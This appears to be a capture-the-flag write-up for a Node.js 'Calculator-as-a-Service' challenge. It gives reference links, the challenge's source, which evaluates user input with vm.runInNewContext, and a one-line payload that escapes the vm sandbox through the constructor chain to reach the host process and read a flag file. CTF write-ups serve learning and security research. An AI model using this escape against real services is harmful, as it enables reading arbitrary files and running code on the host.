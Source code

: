 ## Owner:

> CaptainFreak

#### Solved?

 -Yes

#### Tried:

Escaping Node and accessing parenting objects

#### Solutions:

Usefull references:

1. https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af#file-escape-js-L64

2. https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html


Challenges had following code:

```javascript
const vm = require('vm')
const readline = require('readline')

const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
})

process.stdout.write('Welcome to my Calculator-as-a-Service (CaaS)!\n')
process.stdout.write('This calculator lets you use the full power of Javascript for\n')
process.stdout.write('your computations! Try `Math.log(Math.expm1(5) + 1)`\n')
process.stdout.write('Type q to exit.\n')
rl.prompt()
rl.addListener('line', (input) => {
  if (input === 'q') {
    process.exit(0)
  } else {
    try {
      console.log(input)
      const result = vm.runInNewContext(input)
      process.stdout.write(result + '\n')
    } catch(e) {
      console.log(e)
      process.stdout.write('An error occurred.\n')
    }
    rl.prompt()
  }
})
```


3. Payload that escapes and gets reference to process object of parent:
```
this.constructor.constructor('return this.process')().mainModule.require('fs').readFileSync('/ctf/flag.txt',{encoding:'utf8',flag:'r'})
```








